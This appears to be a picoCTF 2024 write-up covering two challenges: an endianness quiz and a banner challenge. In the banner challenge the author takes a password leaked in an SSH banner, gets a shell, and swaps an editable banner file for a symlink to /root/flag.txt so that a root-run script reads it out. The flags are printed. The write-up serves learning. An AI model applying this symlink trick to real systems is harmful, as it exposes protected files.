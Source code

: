 ```Bash
tsuneki:~/dc/ctf/pico2024/general/collabo/drop-in$ nc titan.picoctf.net 56286
Welcome to the Endian CTF!
You need to find both the little endian and big endian representations of a word.
If you get both correct, you will receive the flag.
Word: vpyxm
Enter the Little Endian representation: 6d78797076        
Correct Little Endian representation!
Enter the Big Endian representation: 767079786d
Correct Big Endian representation!
Congratulations! You found both endian representations correctly!
Your Flag is: picoCTF{3ndi4n_sw4p_su33ess_cfe38ef0}
```

## dont-you-love-banners
Description said
>The server has been leaking some crucial information on tethys.picoctf.net 63705

I tried to prove this server in many way, but finally it just need to connect with nc.
```Bash
$ nc tethys.picoctf.net 63705
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```
It looks like password.<br />
Then,Connect to the second server and answer some question.<br />
```Bash
$ nc tethys.picoctf.net 58650
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
Draper
player@challenge:~$
```
I got the shell and found script.py in root directory after digging.
```Python
# Part of script.py
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")
```
File /home/player/banner exists in home directory and I can edit it.<br />
There's also flag.txt in /root/ .<br />
Delete /home/player/banner and create symlink pointing to '/root/flag.txt'.
```Bash
player@challenge:~$ rm banner
player@challenge:~$ ln -s /root/flag.txt banner
player@challenge:~$ ls
banner  text

# Reconnect
$ nc tethys.picoctf.net 58650
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_a0e119d4}

what is the password?
```